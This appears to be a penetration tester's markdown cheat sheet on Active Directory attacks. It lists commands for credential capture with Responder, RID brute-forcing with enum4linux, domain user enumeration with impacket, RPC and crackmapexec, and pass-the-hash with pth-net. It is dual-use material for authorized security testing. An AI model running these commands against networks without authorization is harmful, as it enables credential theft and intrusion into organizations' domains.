 


# Active Directory

## Odds and Ends

Empty LM Hash
```bash
aad3b435b51404eeaad3b435b51404ee
```


## Active Directory Enumeration without Credential

When starting to attack an active directory network, the most valuable piece of information you can obtain first is a set of domain credentials. 
Followed by unauthenticated RCE and unauthenticated access to varying types of resources.

When trying to obtain credentials theres a plethora of ways to go about it depending on your scope and current level of access. So a few ways will be listed here.

### Responder (always)
This tool should always be ran and utilized on engagements. 
```bash
# just run
script -a responder.txt
sudo responder -I eth0 -wd
# ^D or 'exit' to exit the script

# set on timer
sudo timeout 30m responder -I eth0 -wd
```

### Enum4Linux

This tool has a plethora of funcitons that you can run all at once.

It will brute force RID, get description fields from ldap, and more.

```bash
enum4linux -a -d <ip>
```


## Active Directory Enumeration with Credential

Use valid credentials to generate a list of all the domain user accounts.
```bash
impacket-GetADUsers -dc-ip <dc-ip> 'domain.local/USER:PASS' -all |awk '{print $1}' > domainusers.txt
```

Use RPC to gain additional information
```bash
# List Domain Admins group members:
net rpc group members 'Domain Admins' -U 'DOMAIN/USERNAME%PASSWORD' -S IP

# Pass-the-hash:
pth-net rpc group members 'Domain Admins' -U 'DOMAIN/USERNAME%HASH' -S IP

# Enumerate users:
crackmapexec ldap -u USERNAME -p PASSWORD -d DOMAIN DCIP -M user-desc

# Enumerate users with rpcclient:
script script-rpcclient-domainusers.txt
rpcclient -U 'DOMAIN/USERNAME%PASSWORD' DCIP
```